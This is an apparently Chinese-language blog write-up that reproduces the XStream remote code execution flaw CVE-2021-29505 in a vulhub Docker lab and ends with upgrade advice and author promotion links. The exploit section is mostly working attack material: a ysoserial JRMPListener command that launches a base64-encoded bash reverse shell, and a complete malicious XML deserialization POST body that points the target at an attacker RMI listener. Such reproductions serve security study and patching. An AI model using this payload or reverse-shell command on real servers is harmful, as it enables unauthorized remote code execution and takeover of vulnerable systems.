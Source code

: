 
# 

[↓↓↓](https://www.cnblogs.com/thelostworld/p/14810682.html)  
  
XStream 远程代码执行（CVE-2021-29505）  
  
[↑↑↑](https://www.cnblogs.com/thelostworld/p/14810682.html)

  
![](assets/1706496438-8f9d93a656874870f9e5df75ba33c2b2.jpg)

XStream 远程代码执行（CVE-2021-29505）

一、简介描述

XStream 是一种 OXMapping 技术，是用来处理 XML 文件序列化的框架，在将 javaBean 序列化，或将 XML 文件反序列化的时候，不需要其它辅助类和映射文件，使得 XML 序列化不再繁琐。攻击者可以操纵已处理的输入流并替换或注入对象，从而执行从远程服务器加载的任意代码。

二、影响版本：

XStream <= 1.4.16

三、环境搭建：

https://raw.githubusercontent.com/vulhub/vulhub/master/xstream/CVE-2021-29505/docker-compose.yml

文件：docker-compose.yml

version: '2' services: web: image: vulhub/xstream:1.4.16 ports: - "8080:8080"

docker-compose up -d

![](assets/1706496438-ec50ba0759286e03de6a9ae42aee7056.jpg)

镜像已经启动：

![](assets/1706496438-a76b75085fe583439b3a3425396fd003.jpg)

访问地址：http://192.168.0.106:8080/

![](assets/1706496438-3a8d0cb40749f9c9e340092c0f5bd286.jpg)

四、漏洞复现

启动服务：

反弹目标需要 base64 加密：

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1098 CommonsCollections6 "bash -c {echo,L2Jpbi9iYxxxxxxxxPiYx}|{base64,-d}|{bash,-i}"

执行过程截图：

![](assets/1706496438-936e3bbec6303b16e83e393e65c312ce.jpg)

执行 poc：

![](assets/1706496438-bf4d6b0f8936b35d642e27dca9677a3e.jpg)

获取反弹 shell：

![](assets/1706496438-9a665dfa2ed75ff3550a81e12a51441a.jpg)

详细数据包：

POST / HTTP/1.1 Host: 192.168.0.106:8080 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Connection: keep-alive Upgrade-Insecure-Requests: 1 Content-Type: application/xml Content-Length: 3115 <java.util.PriorityQueue serialization='custom'> <unserializable-parents/> <java.util.PriorityQueue> <default> <size>2</size> </default> <int>3</int> <javax.naming.ldap.Rdn\_-RdnEntry> <type>12345</type> <value class='com.sun.org.apache.xpath.internal.objects.XString'> <m\_\_obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m\_\_obj> </value> </javax.naming.ldap.Rdn\_-RdnEntry> <javax.naming.ldap.Rdn\_-RdnEntry> <type>12345</type> <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'> <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'> <parsedMessage>true</parsedMessage> <soapVersion>SOAP\_11</soapVersion> <bodyParts/> <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1\_1.Message1\_1Impl'> <attachmentsInitialized>false</attachmentsInitialized> <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'> <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'> <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'> <names> <string>aa</string> <string>aa</string> </names> <ctx> <environment/> <registry class='sun.rmi.registry.RegistryImpl\_Stub' serialization='custom'> <java.rmi.server.RemoteObject> <string>UnicastRef</string> <string>192.168.0.102</string> <int>1098</int> <long>0</long> <int>0</int> <long>0</long> <short>0</short> <boolean>false</boolean> </java.rmi.server.RemoteObject> </registry> <host>192.168.0.102</host> <port>1098</port> </ctx> </candidates> </aliases> </nullIter> </sm> </message> </value> </javax.naming.ldap.Rdn\_-RdnEntry> </java.util.PriorityQueue> </java.util.PriorityQueue>

五、漏洞修复：

将 xstream 升级到 1.4.17 或以上版本。（在 maven 的/pom.xml 中替换高版本 xstream）

<dependency> <groupId>com.thoughtworks.xstream</groupId> <artifactId>xstream</artifactId> <version>1.4.17</version> </dependency>

参考：

https://mp.weixin.qq.com/s/dh7Ewg7Pp-pg3mkLuUv9Rg

https://blog.csdn.net/weixin\_45728976/article/details/116942969

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负！

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](assets/1706496438-dfb289bcfd27df0a114689b1cf34dadb.jpg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq\_37602797/category\_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](assets/1706496438-ca899e53a11b427b2c69eec36974ddc1.jpg)

欢迎添加本公众号作者微信交流，添加时备注一下“公众号”

![](assets/1706496438-f132f1fffe260bb74fd6085d7003d710.jpg)

转载漏洞复现、代码审计、网络安全相关内容
